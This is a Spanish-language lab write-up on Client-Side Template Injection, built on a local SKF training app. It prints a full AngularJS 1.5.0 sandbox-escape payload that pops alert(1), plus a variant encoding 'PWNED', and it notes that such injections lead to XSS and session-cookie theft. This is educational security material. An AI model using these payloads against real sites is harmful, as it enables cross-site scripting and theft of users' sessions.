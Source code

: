 ```yaml
---
title: "[Lab] Client-Side Template Injection (CSTI)"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, python]
---
```




# Client-Side Template Injection (CSTI)



## Requerimientos

```bash
apt install python2
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
rm get-pip.py
```

## Instalación

```bash
git clone https://github.com/blabla1337/skf-labs
pip2 install -r requirements.txt
python2 CSTI.py
```

Esto lo que hará es correr un servidor web de forma local sin contenedores:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled.png)

La web se ve de esta forma:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 1.png)

Este lab sirve para entender el concepto de cómo funciona un CSTI más que para un escenario real.

Al ingresar un input, por ejemplo, la palabra “Hola”, esta se vería reflejada en el servidor:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 2.png)

A comparación con el SSTI, la idea es la misma, inyectar un input para verlo reflejado en el servidor pero la diferencia radica en que la inyección en este caso se ve reflejada o la ejecuta el navegador del cliente y no el servidor en sí por lo que aquí la ejecución de comandos para ver archivos internos del servidor no aplican pero la idea de este ataque es derivarlo a un XSS para obtener algún tipo de información valiosa del usuario como cookies de sesión entre otras cosas.

En este caso se puede utilizar el repositorio de PayloadAllTheThings, en este caso se puede ver en la web que se está utilizando una versión en particular de Angularjs, la 1.5.0 por lo que se buscarán payloads para esa versión:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 3.png)

En este caso, el payload que se utilizará es el siguiente:

```bash
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

Este payload, está haciendo un “alert(1) de forma que cuando esto se ingrese en la web, mostrará una alerta con valor 1”:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 4.png)

También se puede representar strings por ejemplo la palabra “PWNED”, en este caso se pasará el string a decimal para que no haya problemas de interpretación y para esto se utilizará python:

```bash
sentence = "PWNED"
for character in sentence:
	print(ord(character))
```

*ord() permite pasar los caracteres a decimal.*

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 5.png)

Luego estos caracteres de pueden tratar para representarlos en una misma línea:

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 6.png)

Ahora esto se puede incluir en el payload

```bash
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(80,87,78,69,68)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

![Untitled](../assets/OWASP-TOP-10/Client-Side Template Injection (CSTI)/Untitled 7.png)
